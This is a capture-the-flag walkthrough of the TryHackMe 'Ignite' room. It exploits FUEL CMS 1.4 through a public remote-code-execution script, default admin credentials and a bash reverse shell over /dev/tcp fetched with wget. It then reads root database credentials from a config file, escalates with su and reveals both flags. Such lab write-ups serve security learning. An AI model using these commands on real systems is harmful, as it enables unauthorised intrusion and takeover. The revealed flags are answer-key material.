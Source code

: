 # Ignite

![tryhackme.com - © TryHackMe](.gitbook/assets/tryhackme-logo-small.png>)

> 🔬🌐 [Ignite](https://tryhackme.com/room/ignite)
>
> _A new start-up has a few issues with their web server._
>
> <img src=".gitbook/assets/ignite.png" alt="" data-size="original">

🎯 Target IP: `10.10.174.21`

## Recon

```bash
mkdir ignite
cd ignite
nmap -sV -sC -oA nmap_ignite 10.10.174.21
```

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome to FUEL CMS
| http-robots.txt: 1 disallowed entry
|_/fuel/
```

> 📌 Found **FUEL CMS v. 1.4** on port `80`

### Local Recon

Navigate to

* `http://10.10.174.21/`
* `http://10.10.174.21/fuel`
  * `admin`:`admin`

## Exploitation

* Search for a Fuel CMS exploit

```bash
searchsploit fuel cms
searshsploit -m 50477
less 50477.py

python 50477.py -u http://10.10.174.21
```

> 📌 [Fuel CMS 1.4.1 - Remote Code Execution (3)](https://www.exploit-db.com/exploits/50477)

```bash
whoami
```

![](.gitbook/assets/image-20230511172416842.png)

### Reverse Shell

```bash
ip -br -c a
	10.18.65.48 # my IP
	
subl shell.sh

# Insert this line for a bash reverse shell
/bin/bash -i >& /dev/tcp/10.18.65.48/3333 0>&1
```

* Setup a Python web server and a `nc` listener on 2 different tabs

```bash
python -m http.server

nc -nvlp 3333
```

* Back in the exploited Fuel CMS `Enter Command $`

```bash
wget http://10.18.65.48:8000/shell.sh -O shell.sh
bash shell.sh
```

* Reverse shell received in the `nc` terminal

```bash
/usr/bin/script -qc /bin/bash /dev/null
cd /home/www-data
ls
cat flag.txt
```

<details>

<summary>Reveal Flag - user.txt: 🚩</summary>

`6470e394cbf6dab6a91682cc8585059b`

<img src=".gitbook/assets/image-20230511171954548.png" alt="" data-size="original">

</details>

## Privilege Escalation

* Enumerate Fuel CMS application
  * `/var/www/html/fuel/application/config/`

```bash
cat /var/www/html/fuel/application/config/database.php
```

```bash
$db['default'] = array(
	'dsn'	=> '',
	'hostname' => 'localhost',
	'username' => 'root',
	'password' => 'mememe',
	'database' => 'fuel_schema',
	'dbdriver' => 'mysqli',
	'dbprefix' => '',
	'pconnect' => FALSE,
	'db_debug' => (ENVIRONMENT !== 'production'),
	'cache_on' => FALSE,
	'cachedir' => '',
	'char_set' => 'utf8',
	'dbcollat' => 'utf8_general_ci',
	'swap_pre' => '',
	'encrypt' => FALSE,
	'compress' => FALSE,
	'stricton' => FALSE,
	'failover' => array(),
	'save_queries' => TRUE
);
```

> 📌 Found database credentials: `root`:`mememe`

* Try to use those credentials for the `root` user of the system

```bash
su root

whoami
cd
cat root.txt
```

<details>

<summary>Reveal Flag - root.txt: 🚩</summary>

`b9bbcb33e11b80be759c4e844862482`

<img src=".gitbook/assets/image-20230511175207984.png" alt="" data-size="original">

</details>

***
